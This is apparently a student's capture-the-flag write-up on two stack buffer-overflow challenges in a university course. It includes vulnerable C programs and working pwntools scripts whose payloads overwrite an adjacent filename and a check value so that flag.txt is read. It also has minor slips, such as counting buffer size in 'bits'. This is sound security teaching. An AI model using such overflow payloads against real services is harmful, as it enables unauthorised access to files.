


# **CTF Week #5**

**Objective:** Explore stack operation and exploitation of stack buffer-overflows.

**Targeted addresses**: http://ctf-fsi.fe.up.pt in port 4003 and port 4000

## Challenge 1

In this first challenge, using a ZIP file provided by the CTF platform, we need to read the flag.txt file where the flag for this challenge is located.
The service was hosted on port `4003`.

**Program main.c**

``` c
#include <stdio.h>
#include <stdlib.h>

int main() {
    char meme_file[8] = "mem.txt\0";
    char buffer[32];

    printf("Try to unlock the flag.\n");
    printf("Show me what you got:");
    fflush(stdout);
    scanf("%40s", &buffer);

    printf("Echo %s\n", buffer);

    printf("I like what you got!\n");
    
    FILE *fd = fopen(meme_file,"r");
    
    while(1){
        if(fd != NULL && fgets(buffer, 32, fd) != NULL) {
            printf("%s", buffer);
        } else {
            break;
        }
    }


    fflush(stdout);
    
    return 0;
}
```

Looking at the source code (main.c) we are asked 3 questions:

1. Is there a file that is opened and read by the program?
* Yes, the program attempts to open and read a file named `mem.txt`.

2. Is there any way to control which file is opened?
* The file to be opened and read is hard-coded as `mem.txt` in the `meme_file` array. Therefore, it always attempts to open `mem.txt`. The only way to change that is changing the code itself.

3. Is there any buffer-overflow? If so, what can you do?
* Yes, there is a buffer overflow vulnerability in the code. The `buffer` array is defined with a size of 32 characters, and the code uses the `scanf` function to read up to 40 characters into this buffer. This means that if more than 32 characters are entered by the user, it can overwrite the adjacent memory, causing undefined behavior and potentially leading to a security issue. To fix this buffer overflow issue, you should ensure that `scanf` reads at most 32 characters to avoid overwriting the buffer. (`scanf("%31s", buffer);`)

**Program exploit-example.py**

```python
#!/usr/bin/python3
from pwn import *

DEBUG = False

if DEBUG:
    r = process('./program')
else:
    r = remote('ctf-fsi.fe.up.pt', 4003)

r.recvuntil(b":")
r.sendline(b"Tentar nao custa")
r.interactive()
```

For this first challenge, we only had to alter the line 12, replacing the sent string by `sendline` to `"xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxflag.txt"`, where `x` was any random character and repeated 32 times because that was the number of bits in the `buffer` array.

```python
#!/usr/bin/python3
from pwn import *

DEBUG = False

if DEBUG:
    r = process('./program')
else:
    r = remote('ctf-fsi.fe.up.pt', 4003)

r.recvuntil(b":")
r.sendline(b"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaflag.txt")
r.interactive()
```

By executing this script, we were able to successfully overwrite through buffer overflow the contents of `meme_file` to the name of the file where the flag was contained in. The program then opened `flag.txt`, read its contents, and printed the flag. 



## Challenge 2

In this second challenge, using a ZIP file provided by the CTF platform, we need to read the flag.txt file where the flag for this challenge is located. It was pretty much the same goal as in the previous challenge, where we had to make use of a buffer overflow vulnerability in order to obtain the flag stored in `flag.txt`. The service was now hosted on port `4000`.

Like in the first challenge, first order of action was to check what sort of protections the program had been compiled with by using the `$ checksec program` command. The output was the same as in the first program.

Next step was to look in the source code, and there we noticed the differences. The code looked very similar to the first program's.

**Program main.c**

``` c
#include <stdio.h>
#include <stdlib.h>

int main() {
    char val[4] = "\xef\xbe\xad\xde";
    char meme_file[9] = "mem.txt\0\0";
    char buffer[32];

    printf("Try to unlock the flag.\n");
    printf("Show me what you got:");
    fflush(stdout);
    scanf("%45s", &buffer);
    if((long)val == 0xfefc2324) {
        printf("I like what you got!\n");

        FILE fd = fopen(meme_file,"r");

        while(1){
            if(fd != NULL && fgets(buffer, 32, fd) != NULL) {
                printf("%s", buffer);
            } else {
                break;
            }
        }
    } else {
        printf("You gave me this %s and the value was %p. Disqualified!\n", meme_file,(long*)val);
    }

    fflush(stdout);

    return 0;
}
```

Looking at the source code (main.c) we are asked 3 questions:

1. What changes have been made?
* The changes made are: An additional `val` array of 4 bytes is added with the value "\xef\xbe\xad\xde" and now the code checks if the value of `(long)val` is equal to `0xfefc2324` before opening and reading the file.

2. Do they fully mitigate the problem?
* No, they don't fully mitigate the problem.

3. Is it possible to overcome the mitigation using a similar technique to the one used previously?
* Yes, we need to try to overwrite the values in the `val` array so that we can exploit the buffer overflow vulnerability to alter the values of `val` and `meme_file`, causing the program to open the `flag.txt` file and output the flag.

Using the same python script that we used in the challenge prior, we made the necessary alterations in order to successfully exploit the program.

```python
#!/usr/bin/python3
from pwn import *

DEBUG = False

if DEBUG:
    r = process('./program')
else:
    r = remote('ctf-fsi.fe.up.pt', 4000)

r.recvuntil(b":")
r.sendline(b"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x24\x23\xfc\xfeflag.txt")
r.interactive()
```

We made use of the `\x` notation to write characters using their hexadecimal value. This allowed us to write the necessary characters to overwrite the values in the `val` array inside the `main.c` file. They were also written in reverse to match the proper order. After these characters, we wrote the name of the flag file just the way we had done before. Executing this script, we succesfully exploited the buffer overflow vulnerability to alter the values of `val` and `meme_file`, causing the program to open the `flag.txt` file and output the flag.

